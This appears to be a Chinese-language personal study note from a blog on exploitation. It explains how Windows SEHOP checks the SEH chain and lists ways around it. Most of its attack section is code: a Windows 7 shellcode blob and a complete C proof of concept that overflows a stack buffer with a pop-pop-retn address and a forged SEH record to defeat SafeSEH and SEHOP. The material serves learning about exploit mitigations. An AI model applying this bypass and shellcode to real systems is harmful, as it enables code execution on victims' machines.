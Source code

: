 ```yaml
---
title: 漏洞学习笔记-020-SEHOP简介
description: SEHOP的介绍和一点简单攻击
date: 2020-11-28 15:38:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-020-sehop简介/)

## 简介

SEHOP的核心任务就是检查S.E.H链的完整性，在程序转入异常处理前SEHOP会检查S.E.H链上最后一个异常处理函数是否为系统固定的终极异常处理函数。如果是，则说明这条S.E.H链没有被破坏，程序可以去执行当前的异常处理函数；如果检测到最后一个异常处理函数不是，则说明S.E.H链被破坏，可能发生了S.E.H覆盖攻击，程序将不会去执行当前的异常处理函数

> SEHOP验证伪代码

```cpp
if (process_flags & 0x40 == 0)  // 如果没有SEH记录则不进行检测
{
    if (record != 0xFFFFFFFF)  // 开始检测
    {
        do
        {
            if (record < stack_bottom || record > stack_top) // SEH 记录必须位于栈中
                goto corruption;
            if ((char *)record + sizeof(EXCEPTION_REGISTRATION) > stack_top) // SEH 记录结构需完全在栈中
                goto corruption;
            if ((record & 3) != 0) // SEH记录必须4字节对齐
                goto corruption;
            handler = record->handler;
            if (handler >= stack_bottom && handler < stack_top) // 异常处理函数地址不能位于栈中
                goto corruption;
            record = record->next;
        } while (record != 0xFFFFFFFF); // 遍历S.E.H链
    }
    if ((TEB->word_at_offset_0xFCA & 0x200) != 0)
    {
        if (handler != &FinalExceptionHandler) // 核心检测，地球人都知道，不解释了
        goto corruption;
    }
}
```

## 攻击思路

### 攻击返回地址

> 如果此函数启用了SEHOP但是没有启用GS或者函数刚好没有启用GS那么直接攻击返回地址即可

### 攻击虚函数

> SEHOP只保护SEH，但是虚函数表它并没有保护，攻击虚函数依旧可以成功

### 利用未启用SEHOP的模块

> 微软为一些加密壳禁用了SEHOP，例如穿山甲Armadilo

- 操作系统会根据PE头中`MajorLinkerVersion`和`MinorLinkerVersion`两个选项来判断是否为程序禁用SEHOP。例如，我们可以将这两个选项分别设置为`0x53`和`0x52`来模拟经过`Armadilo`加壳的程序，从而达到禁用SEHOP的目的
- Windows 7以及以后的系统中`PEB_LDR_DATA`指向的第二个模块被`KernelBase.dll`占据，所以shellcode应该修改一下

```c
Shellcode_for_windows7=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09" // 在这增加机器码\x8B\x09，它对应的汇编为mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;
```

### 伪造SEH链表

> 前提：ASLR不启用

- 思路
  - 通过未启用`SafeSEH`的`SEH_NOSafeSEH_JUMP.dll`来绕过`SafeSEH`
  - 通过伪造S.E.H链，造成S.E.H链未被破坏的假象来绕过`SEHOP`
  - `SEH_NOSafeSEH`中的test函数存在一个典型的溢出，即通过向str复制超长字符串造成str溢出，进而覆盖程序的S.E.H信息
  - 使用`SEH_NOSafeSEH_JUMP.DLL`中的`pop pop retn`指令地址覆盖异常处理函数地址，然后通过制造除0异常，将程序转入异常处理
  - 通过劫持异常处理流程，程序转入`SEH_NOSaeSEH_JUMP.DLL`中执行`pop pop retn`指令，在执行`retn`后程序转入`shellcode`执行

- 代码

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x14\xFF\x12\x00" // address of last seh record
"\x12\x10\x12\x11" // address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09" // 在这增加机器码\x8B\x09，它对应的汇编为mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90"
"\xFF\xFF\xFF\xFF" // the fake seh record
"\x75\xA8\xF7\x77"
;

DWORD MyException(void)
{
    printf("There is an exception");
    getchar();
    return 1;
}

void test(char * input)
{
    char str[200];
    memcpy(str, input, 412);
    int zero = 0;
    __try
    {
        zero = 1 / zero;
    }
    __except(MyException()){}
}

int main()
{
    HINSTANCE hInst = LoadLibrary(_T("SEH_NOSaeSEH_JUMP.dll")); // load No_SafeSEH module
    char str[200];
    test(shellcode);
    return 0;
}
```
